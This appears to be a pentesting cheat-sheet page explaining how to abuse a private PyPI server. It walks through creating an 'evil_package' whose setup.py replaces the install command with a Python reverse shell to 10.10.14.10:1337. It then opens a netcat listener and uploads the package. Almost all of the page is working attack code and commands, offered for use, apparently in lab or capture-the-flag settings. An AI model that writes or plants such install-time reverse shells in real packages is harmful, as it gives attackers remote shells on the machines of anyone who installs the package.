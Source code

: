 ```yaml
---
title: "Pypi"
date: 2024-7-19
tags: ["python", "pypi", "package", "rce"]
---
```


---
### Abuse #1: Remote Pypi Server

#### 1. Create files

```bash
mkdir evil_package
```

```bash
mkdir evil_package/evil_package
```

```bash
cd evil_package
```

```bash
touch README.md
```

```bash
touch evil_package/__init__.py
```

```bash
touch setup.cfg
```

```bash
touch setup.py
```

#### 2. Replace setup.py

```python
#!/usr/bin/env python3

from setuptools.command.install import install
from setuptools import setup
import os
import socket
import subprocess

class Exploit(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.14.10",1337)) # CHANGE HERE
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p = subprocess.call(["/bin/sh", "-i"])

setup(name="evil_package",
      version="1.0.0",
      description="Evil Package",
      author="user",
      author_email="user@example.com",
      url="http://example.com",
      license="MIT",
      zip_safe=False,
      cmdclass={"install": Exploit})
```

#### 3. Create ~/.pypirc

```bash
[distutils]
index-servers =
  example
[example]
repository: http://pypi.example.com
username: user
password: password
```

#### 4. Exploit

```bash
# Open a nc listener
rlwrap nc -lvnp 1337
```

<br>

```bash
# Create an archive
python3 setup.py sdist
```

```bash
# Upload
python3 setup.py sdist upload -r example
```

<br>